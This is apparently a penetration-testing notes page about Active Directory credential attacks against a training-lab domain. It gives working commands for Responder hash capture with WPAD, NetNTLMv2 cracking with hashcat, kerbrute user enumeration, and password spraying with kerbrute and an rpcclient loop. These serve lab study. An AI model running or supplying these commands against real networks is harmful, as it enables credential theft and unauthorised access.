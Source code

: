 Listening with responder

```bash
sudo responder -I ens224 -A -wf
# sudo privileges or root to make sure that all ports needed are available on our attack host for it to function best.
# -w: The use of the -w flag utilizes the built-in WPAD proxy server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has Auto-detect settings enabled.
# -f: attempts to fingerprint the remote host operating system and version.
```

With this configuration shown above, Responder will listen and answer any requests it sees on the wire.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). 

**NetNTLMv2 hashes are very useful once cracked, but cannot be used for techniques such as pass-the-hash**, meaning we have to attempt to crack them offline with [hashcat](hashcat.md) or [johntheripper](john-the-ripper.md). For example, in the case of a  NetNTLMv2 hash, we can copy the hash to a file and attempt to crack it using the hashcat module 5600. 

```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

[See hashcat for other modules beside 5600](hashcat.md).

> Hashes are also stored in a SQLite database that can be configured in the `Responder.conf` config file, typically located in `/usr/share/responder` unless we clone the Responder repo directly from GitHub.



#### Shares



### Password spraying attack

Steps:

- Build a user list (with previous techniques)
- Consider your password list.

From previous section we used kerbrute to build a userlist:

```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```


#### Password spraying attack with kerbrute

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

#### Password spraying attack with rpcclient

```shell-session
for u in $(cat valid_ad_users);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
